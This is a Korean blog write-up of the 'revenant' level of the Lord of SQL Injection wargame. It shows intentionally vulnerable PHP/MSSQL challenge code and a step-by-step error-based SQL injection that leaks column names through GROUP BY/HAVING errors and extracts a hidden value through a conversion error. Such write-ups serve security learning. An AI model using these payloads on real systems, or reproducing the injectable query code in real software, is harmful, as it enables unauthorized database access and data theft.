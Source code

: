 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - revenant 문제풀이"
excerpt_separator: <!--more-->
comments : true
categories : [Wargame/Lord of SQL Injection]
tags:
  - Write-up
  - Lord of SQL Injection
---
```


또 간만에 정리하는 Write-up이다.  

이번에도 `MSSQL` 문제이다.  

<!--more-->

코드는 다음과 같다.  

```php
-----------------------------------------------------------------
query : select * from prob_revenant where id='' and pw=''
-----------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  $db = mssql_connect();
  if(preg_match('/master|sys|information|prob|;|waitfor|_/i', $_GET['id'])) exit("No Hack ~_~");
  if(preg_match('/master|sys|information|prob|;|waitfor|_/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select * from prob_revenant where id='{$_GET['id']}' and pw='{$_GET['pw']}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  sqlsrv_query($db,$query);
  if(sqlsrv_errors()) exit(mssql_error(sqlsrv_errors()));

  $query = "select * from prob_revenant where id='admin'"; 
  $result = sqlsrv_fetch_array(sqlsrv_query($db,$query));
  if($result['4'] === $_GET['pw']) solve("revenant"); // you have to pwn 5th column
  highlight_file(__FILE__);
?>
```

언뜻 보면 이 전 문제와 동일하게 생겼다.  

그런데 이 번 문제의 핵심은 바로 `5 번째 열(column)`을 뽑아야 한다는 것이다.  

그렇다면 먼저 5번째 컬럼 명을 알아낸 후, 이 전 문제와 같은 방법으로 오류를 유도하면 `5 번째 열`의 값을 알아낼 수 있을 것 같다.  

테이블 내의 컬럼 명을 알기 위해서는 `group by`와 `having`을 사용했다.  

이 전 문제에서 아래와 같이 입력하면 `테이블 명.컬럼 명`이 나타나는 오류를 확인할 수 있었다.  

```
?id=a' having 1=1 --
```

```
Error: [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Column 'prob_revenant.id' is invalid in the select list because it is not contained in either an aggregate function or the GROUP BY clause.
```

위의 오류 중 `prob_revenant.id`에서 `prob_revenant`는 문제의 `테이블 명`이고 `id`는 `컬럼 명`이다.  

이를 활용하여 두 번째 컬럼 명을 구해야 하는데 이 때는 `group by`를 사용하면 된다.  

```
?id=a' group by id having 1=1 -- 
```

위의 값을 입력하면 완성되는 쿼리는 다음과 같다.  

```
select * from prob_revenant where id='a' group by id having 1=1 --' and pw=''
```

따라서 `id='a' group by id having 1=1` 까지가 `where`절에 사용되고 뒤의 부분은 주석처리 된다.  

그 결과 `having` 절에서 오류가 나며 `id` 다음 열을 알아낼 수 있다.  

```
Error: [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Column 'prob_revenant.pw' is invalid in the select list because it is not contained in either an aggregate function or the GROUP BY clause.
```

오류 안에서 두 번째 컬럼 명이 `pw`라는 것을 알 수 있었다.  

다음 세 번째 컬럼 명을 알기 위해서는 `group by` 뒤에 두 번째 컬럼 명을 추가 해 주면 된다.  

```
?id=a' group by id,pw having 1=1 -- 
```

```
Error: [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Column 'prob_revenant.45a88487' is invalid in the select list because it is not contained in either an aggregate function or the GROUP BY clause.
```

세 번째 컬럼 명은 `45a88487`라는 것을 알 수 있다.  

같은 방법으로 네 번째, 다섯 번째 컬럼 명을 알아낼 수 있다.  

그런데 세 번째 컬럼 명은 시작 부분이 숫자라서 그냥 입력하면 오류가 난다.  

그래서 `"`로 묶어주었다.  

```
?id=a' group by id,pw,"45a88487" having 1=1 -- 
```

```
Error: [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Column 'prob_revenant.13477a35' is invalid in the select list because it is not contained in either an aggregate function or the GROUP BY clause.
```

```
?id=a' group by id,pw,"45a88487","13477a35" having 1=1 -- 
```

```
Error: [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Column 'prob_revenant.9604b0c8' is invalid in the select list because it is not contained in either an aggregate function or the GROUP BY clause.
```

이렇게 다섯 번째 컬럼 명이 `9604b0c8`라는 것을 알 수 있었다.  

이제 다섯 번째 컬렴 명에서 이 전 문제와 같이 오류를 발생시켜 값을 추출하면 문제를 풀 수 있을 것이다.  

이를 위해 아래와 같이 공격 구문을 구성했다.  

```
?id=admin' and "9604b0c8"=1 -- 
```

그 결과 아래와 같은 오류를 얻을 수 있었다.  

```
Error: [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Conversion failed when converting the varchar value 'aa68a4b3fb327dee07f868450f7e1183' to data type int.
```

즉, `id='admin'`일 때 `다섯 번째 컬럼`의 값은 `aa68a4b3fb327dee07f868450f7e1183`라는 것을 알 수 있었다.  

이제 이를 `pw`의 값으로 입력 해 주면 문제를 풀 수 있다.  

```
?id=admin&pw=aa68a4b3fb327dee07f868450f7e1183
```

```php
---------------------------------------------------------------------------------------------------------------------------
query : select * from prob_revenant where id='admin' and pw='aa68a4b3fb327dee07f868450f7e1183'
---------------------------------------------------------------------------------------------------------------------------

REVENANT Clear!

<?php
  include "./config.php";
  login_chk();
  $db = mssql_connect();
  if(preg_match('/master|sys|information|prob|;|waitfor|_/i', $_GET['id'])) exit("No Hack ~_~");
  if(preg_match('/master|sys|information|prob|;|waitfor|_/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select * from prob_revenant where id='{$_GET['id']}' and pw='{$_GET['pw']}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  sqlsrv_query($db,$query);
  if(sqlsrv_errors()) exit(mssql_error(sqlsrv_errors()));

  $query = "select * from prob_revenant where id='admin'"; 
  $result = sqlsrv_fetch_array(sqlsrv_query($db,$query));
  if($result['4'] === $_GET['pw']) solve("revenant"); // you have to pwn 5th column
  highlight_file(__FILE__);
?>
```

`REVENANT Clear`